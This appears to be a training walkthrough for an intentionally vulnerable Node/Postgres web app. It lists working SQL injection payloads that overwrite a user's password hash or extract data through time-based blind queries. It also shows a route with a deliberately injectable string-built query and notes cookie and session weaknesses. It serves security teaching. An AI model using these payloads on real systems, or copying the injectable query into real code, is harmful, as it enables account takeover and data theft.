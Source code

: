  

## SQL Injection Steps

* Bypass login function with sql injection
 - The following can be used to guess a password, but you can change the query accordingly
 ```
 /login password field, replaces your hash!
 test'; INSERT INTO users (username,password) VALUES ('test', '$2y$10$x6PXZnQoodybWH/kmtwEQeKf7PasRSGvb7zaEQ.y0xGFrbntiUqpW') ON CONFLICT (username) DO UPDATE SET password='$2y$10$x6PXZnQoodybWH/kmtwEQeKf7PasRSGvb7zaEQ.y0xGFrbntiUqpW';--
 ```
 - Possible variation assuming we DON'T know the name of the password field.
```
test'; SELECT CASE WHEN ((SELECT password from users where username='admin'))='admin1' THEN (select pg_sleep(5)) ELSE NULL END;--
``` 

* Try a blind scenario to get the DB name
- If your database name is "postgres" this will work otherwise use something like intruder to build out the query and dump the db name based on time responses

```
/register username field
johnny','test'); SELECT CASE WHEN (SUBSTR((SELECT current_database()),1,1))='a' THEN (select pg_sleep(3)) ELSE NULL END;--
```
 - Read Jakes blog about safe sql injection!

* Set up a reflected scenario that will print SQL results to you in the UI and get info from it

```
/forgot
router.post('/forgot', async function(req, res, next) {
  console.log(`SELECT * from users where username='${req.body.username}';`);
  var db_response = await client.query(`SELECT * from users where username='${req.body.username}';`);
  console.log(db_response);
  var username_return = '';
  db_response.rows.forEach(element => username_return+=element.username);
  res.render('forgot_valid',{user:username_return});
});
```
Try and send a password reset for username `' OR '1'='1`


 SELECT current_database()

 test'; SELECT CASE WHEN ((SELECT password from users where username='admin'))='admin1' THEN (select pg_sleep(5)) ELSE NULL END;--

## Cookie vulns

### Boils down to 2 vulns, weakness in token generation or weakness in session token handling

#### Weakness in token generation
  <b>Predicatble tokens</b>
 * Current cookie creation does not implement sufficient entropy, thus the cookies are brute forceable!
 Cookie follows general pattern of `xyz$d$d$d$d$d` where `$d` represents a number 0-9
 * Immediately noticeable pattern
 
#### Weakness in session handling

<b>Disclosure of Tokens on Network</b>
* Not using HTTPS, application and client are sending session token over the network in plain text.

<b>Vulnerable mapping of tokens to sessions</b>
* Multiple valid tokens are allowed to be assigned concurrently to the same user account

<b>Vulnerable session termination</b>
* No logout function
* Cookies do not time out browser side
* Server does not perform session destruction, auth token still associated with the user on the backend for whom it was issued

* <i>SQL Injection note: passwords are bcrypt hashed, however if you are able to dump the sessions table, since the sessions are persistent theres no reason to go for the passwords as you can just simply use an auth token to authenticate as a user</i>

<b>Cookie scope</b>
* Session cookies are not scoped to a particular domain


* Token currently not sent in hidden form field! CSRF is much easier in that case
